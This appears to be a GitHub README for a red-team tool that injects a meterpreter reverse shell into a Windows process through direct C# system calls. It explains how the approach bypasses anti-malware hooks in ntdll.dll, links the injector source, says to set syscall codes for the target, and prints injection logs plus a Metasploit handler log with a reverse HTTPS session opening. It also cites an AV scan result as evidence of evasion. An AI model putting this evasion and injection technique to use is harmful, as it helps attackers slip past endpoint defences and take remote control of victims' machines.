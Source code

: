 # SysCalls
An example of using Windows System Calls (syscalls) in C# to inject a meterpreter shell.

# Introduction
This code is based on the excellent [Red Team Tactics: Utilizing Syscalls in C#](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/) primer by **Jack Halon**, explaining the use of 'System Calls in windows malware for post-exploitation activities, as well as for the bypassing of EDR or Endpoint Detection and Response'. I recommend reading it, it's not an easy subject, but well worth the effort!

Some anti-malware products, such as Bit Defender inject user mode hooks in `ntdll.dll` when new processes are created. This means that whenever APIs such as `NtCreateThreadEx` are called in `ntdll.dll` Bit Defender intercepts the call, does its scanning, then returns execution to the thread (or more likely if there is a meterpreter payload, spoils the fun and kills the process).

If we use syscalls directly we can avoid the hooks, and effectively bypassing the anti-malware scan.

I updated the code to include dynamic syscall resolution, based upon the article [Dynamically resolving syscalls in C#](https://fgsec.net/posts/Dynamically-resolving-syscalls-in-CSharp/) by **FGSec**.

# Codez
If you just want to dig in to the code, go here:

[Native.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Native.cs) - Native imports/structs from Win32 APIS

[Syscalls.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) - The sycall implementation.

[Program.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Program.cs) - The main routine.


# Important
Syscall codes can and do change between operating systems. You must change the the codes in the [Syscalls class](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) to match those of your target.

And remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] Base Address of ntdll is 0x7FFE23450000
[+] Target PID is 40140
[+] Syscall NtOpenProcess on 40140
[+] Return, NTSTATUS=Success, hProcess=0x2F4
[+] Syscall NtAllocateVirtualMemory on 0x2F4
[+] Return, NTSTATUS=Success, baseAddress=0x1D2A9120000
[+] Syscall NtWriteVirtualMemory to 0x1D2A9120000
[+] Return, NTSTATUS=Success, bytesWritten=0x736
[+] Syscall NtProtectVirtualMemory on 0x1D2A9120000
[+] Return, NTSTATUS=Success
[+] Syscall NtCreateThreadEx to 0x1D2A9120000
[+] Return, NTSTATUS=Success, hThread=0x896
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: bprg2hzm) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:58551) at 2021-10-05 12:53:47 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=2kut9uVkyXQW) on 05/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Syscall_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
